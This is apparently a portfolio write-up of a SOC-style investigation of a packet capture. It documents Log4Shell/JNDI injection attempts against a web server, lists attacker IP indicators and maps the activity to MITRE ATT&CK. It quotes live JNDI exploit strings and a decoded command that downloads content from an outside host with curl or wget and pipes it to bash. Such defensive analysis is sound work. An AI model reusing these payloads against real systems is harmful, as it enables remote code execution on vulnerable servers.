









# Project 05 – Web Application Attack Investigation

## Overview

This project demonstrates a SOC-style investigation of web application attack traffic using packet capture analysis.

An 80,843-packet PCAP was analyzed in Wireshark to identify exploitation attempts against a public-facing web server. The investigation identified multiple Log4Shell/JNDI injection attempts, isolated a primary attack source, decoded an embedded Base64 command, extracted infrastructure indicators, and assessed whether successful exploitation could be confirmed from the available network evidence.

The investigation demonstrated clear Log4Shell exploitation attempts but found no network evidence confirming successful command execution.

---

## Investigation Objectives

- Identify malicious HTTP requests
- Identify attacking infrastructure
- Analyze Log4Shell/JNDI injection payloads
- Investigate repeated exploitation attempts
- Decode embedded commands
- Determine attacker intent
- Search for post-exploitation network activity
- Extract indicators of compromise
- Enrich indicators using threat intelligence
- Map observed behavior to MITRE ATT&CK
- Produce an evidence-based incident verdict

---

## Tools Used

- Wireshark
- VirusTotal
- Base64 decoding
- PCAP analysis
- MITRE ATT&CK

---

# Investigation

## 1. Initial PCAP Analysis

The packet capture contained:

```text
80,843 packets
```

The sanitized victim web server was identified as:

```text
198.71.247.91
```



---

## 2. Log4Shell Exploit Discovery

Filtering the packet capture for JNDI-related content identified 25 packets containing JNDI strings.

One malicious HTTP request contained:

```text
${jndi:ldap://45.83.193.150:1389/Exploit}
```

The request was sent by:

```text
49.7.224.217
```

to:

```text
198.71.247.91
```

The JNDI payload referenced separate LDAP infrastructure at:

```text
45.83.193.150:1389
```



---

## 3. Repeated Exploitation Attempts

Analysis of `49.7.224.217` identified four HTTP GET requests.

JNDI payloads were placed within multiple authorization-related values, including:

```text
Bearer
OAuth
Token
Basic
```

This demonstrated repeated attempts to deliver JNDI injection strings through HTTP request data.



---

## 4. Server Responses

The victim web server returned:

```text
HTTP 200 OK
```

for all four analyzed requests.

An HTTP `200` response confirms that the web server responded successfully to the HTTP request. It does not establish that the JNDI payload was successfully executed.



---

## 5. Multiple Attack Sources

Analysis of all JNDI-containing traffic identified **8 different external source IP addresses** targeting the web server.

This demonstrated that the server was receiving Log4Shell-related probing or exploitation traffic from multiple systems.



---

## 6. Attacker Endpoint Analysis

The most prominent source within the JNDI-filtered traffic was:

```text
195.54.160.149
```

The observed JNDI-related source distribution included:

| Source IP | JNDI-Filtered Packets |
|---|---:|
| `195.54.160.149` | 5 |
| `49.7.224.217` | 4 |
| `46.105.95.220` | 4 |
| `104.248.144.120` | 4 |
| `191.232.38.25` | 3 |
| `5.157.38.50` | 3 |
| `2.57.121.36` | 1 |
| `107.189.1.178` | 1 |



---

## 7. Base64 Command Discovery

Further investigation of `195.54.160.149` identified a more detailed Log4Shell payload:

```text
${jndi:ldap://195.54.160.149:12344/Basic/Command/Base64/...}
```

The payload contained a Base64-encoded command.

The source generated:

```text
59 HTTP requests
```

against the root `/` endpoint, including five JNDI-containing packets.



---

## 8. Payload Decoding

The Base64 content was decoded without executing the resulting command.

The decoded command was:

```bash
(curl -s 195.54.160.149:5874/198.71.247.91:80||wget -q -O- 195.54.160.149:5874/198.71.247.91:80)|bash
```

The command was designed to:

1. Contact `195.54.160.149:5874`.
2. Retrieve content using `curl`.
3. Fall back to `wget` if necessary.
4. Pipe the retrieved content directly to `bash`.

This revealed the attacker's intended post-exploitation behavior.



---

## 9. Exploitation Validation

The PCAP was searched for connections involving:

```text
195.54.160.149:12344
```

No packets were observed.

The capture was also searched for the second-stage infrastructure:

```text
195.54.160.149:5874
```

No packets were observed.

Therefore:

| Activity | Finding |
|---|---|
| JNDI exploit request | Observed |
| Base64 command | Observed |
| Intended curl/wget command | Identified |
| LDAP callback to `:12344` | Not observed |
| Connection to `:5874` | Not observed |
| Payload download | Not observed |
| Command execution | Not confirmed |
| Successful compromise | Not confirmed |

---

## 10. Threat Intelligence Enrichment

The primary attacker IP:

```text
195.54.160.149
```

was investigated using VirusTotal.

At the time of analysis, **14 security vendors** flagged the IP address.



---

# Attack Flow

```text
195.54.160.149
        │
        ▼
HTTP GET /
        │
        ▼
198.71.247.91
        │
        ▼
Log4Shell JNDI Injection
        │
        ▼
ldap://195.54.160.149:12344
        │
        ▼
Base64-Encoded Command
        │
        ▼
Intended curl / wget
        │
        ▼
195.54.160.149:5874
        │
        ▼
Intended bash execution

        BUT

No LDAP callback observed
No :5874 connection observed
No successful execution confirmed
```

---

# Indicators

| Type | Indicator | Context |
|---|---|---|
| IP | `195.54.160.149` | Primary attack infrastructure |
| IP | `49.7.224.217` | Additional JNDI attack source |
| IP | `45.83.193.150` | LDAP infrastructure referenced in JNDI payload |
| TCP Port | `12344` | LDAP callback port in primary payload |
| TCP Port | `5874` | Intended second-stage retrieval port |
| Pattern | `${jndi:ldap://...}` | Log4Shell exploitation indicator |

---

# MITRE ATT&CK

## T1190 – Exploit Public-Facing Application

The attacker attempted to exploit a public-facing web application using malicious Log4Shell/JNDI payloads.

The decoded payload also demonstrated intended command execution behavior; however, execution was not confirmed from the available network evidence.

---

# Analyst Verdict

The packet capture contains clear evidence of repeated Log4Shell exploitation attempts against the public-facing web server at `198.71.247.91`.

Multiple external sources delivered JNDI payloads. The strongest observed payload referenced attacker-controlled LDAP infrastructure and contained a Base64-encoded command designed to retrieve additional content using `curl` or `wget` and pipe the result into `bash`.

However, no network traffic was observed from the victim to the specified LDAP callback port `12344` or second-stage retrieval port `5874`.

The evidence therefore supports classification as:

**Log4Shell Exploitation Attempt – Successful Compromise Not Confirmed**

---

# Recommended Response

1. Review the affected server's Log4j version and patch status.
2. Patch vulnerable Log4j components immediately if present.
3. Search server and EDR telemetry for JNDI-related activity.
4. Block identified malicious infrastructure where appropriate.
5. Search for outbound connections to the identified callback infrastructure.
6. Review process execution for `curl`, `wget`, shells, Java, and related child processes.
7. Search for persistence or downloaded artifacts.
8. Review application and web-server logs around the attack timestamps.
9. Hunt across other public-facing systems for similar JNDI payloads.
10. Continue monitoring for exploitation attempts.

---

# Skills Demonstrated

- Web Attack Investigation
- Wireshark
- PCAP Analysis
- HTTP Traffic Analysis
- Log4Shell Investigation
- JNDI Injection Analysis
- Base64 Payload Analysis
- IOC Extraction
- Threat Intelligence
- Network Forensics
- MITRE ATT&CK
- Incident Triage
- Evidence-Based Incident Assessment

---

## Outcome

The investigation identified repeated Log4Shell exploitation attempts, multiple attacking systems, malicious JNDI payloads, attacker-controlled infrastructure, and an encoded second-stage command while correctly distinguishing attempted exploitation from confirmed compromise.

**Status: Completed**